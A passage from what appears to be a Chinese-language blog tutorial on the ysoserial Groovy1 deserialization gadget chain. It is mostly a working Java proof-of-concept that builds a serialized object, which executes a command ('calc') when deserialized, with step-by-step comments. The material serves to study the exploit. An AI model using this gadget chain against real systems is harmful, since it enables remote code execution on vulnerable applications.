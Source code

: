 ```java
        String command = "calc";
        MethodClosure execute = new MethodClosure(command, "execute");
        // final ConvertedClosure closure = new ConvertedClosure(execute, "entrySet");
        // 这两种写法都是可以的，这是因为在AnnotationInvocationHandler的readObject方法中
        // 首先调用到的Map的方法就是entrySet
        // ysoserial采用的是ConvertedClosure(execute, "entrySet");
        // 这可能是因为ysoserial想避免某些特殊的情况发生吧.....或者说只是想提醒我们一下这个方法而已
        final ConvertedClosure closure = new ConvertedClosure(execute, null);
        // 为closure创建一个动态代理
        Map map = (Map) Proxy.newProxyInstance(Groovy1.class.getClassLoader(), new Class[]{Map.class}, closure);
        // 创建一个AnnotationInvocationHandler并将其指向Map这个动态代理实现
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)ctor.newInstance(Override.class, map);
        // 这里可能有点难以理解，嵌套了两层动态代理才真正调用到了具体的方法
        serialize(handler);
        verify();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void verify() throws Exception {
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```

运行POC效果如下：
